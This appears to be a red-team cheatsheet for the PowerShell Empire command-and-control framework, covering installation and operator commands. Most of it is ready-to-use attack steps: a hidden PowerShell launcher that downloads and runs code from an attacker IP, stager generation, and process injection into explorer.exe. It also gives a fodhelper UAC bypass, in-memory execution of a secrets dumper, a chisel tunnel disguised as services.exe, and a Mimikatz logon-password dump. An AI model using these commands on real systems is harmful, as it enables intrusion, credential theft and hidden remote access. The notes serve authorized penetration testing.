 # Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
$ sudo dpkg -i packages-microsoft-prod.deb
$ rm packages-microsoft-prod.deb

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-3.1

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y aspnetcore-runtime-3.1
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']
$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```




## Cheatsheet

Basic PowerShell launcher string:

```
PS > powershell -NoP -sta -NonI -W Hidden -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/launcher.ps1')"
```

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: uselistener/http) > set Name http1
(Empire: uselistener/http) > set Host 10.10.13.37
(Empire: uselistener/http) > set Port 80
(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http1
(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1
(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver
(Empire: useplugin/csharpserver) > set status start
(Empire: useplugin/csharpserver) > execute
(Empire: useplugin/csharpserver) > usestager windows/csharp_exe
(Empire: usestager/windows/csharp_exe) > set Listener http1
(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe
(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e. g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e. g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e. g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "token::elevate" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Plugins

* [https://github.com/BC-SECURITY/SocksProxyServer-Plugin](https://github.com/BC-SECURITY/SocksProxyServer-Plugin)
* [https://github.com/BC-SECURITY/ChiselServer-Plugin](https://github.com/BC-SECURITY/ChiselServer-Plugin)




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)

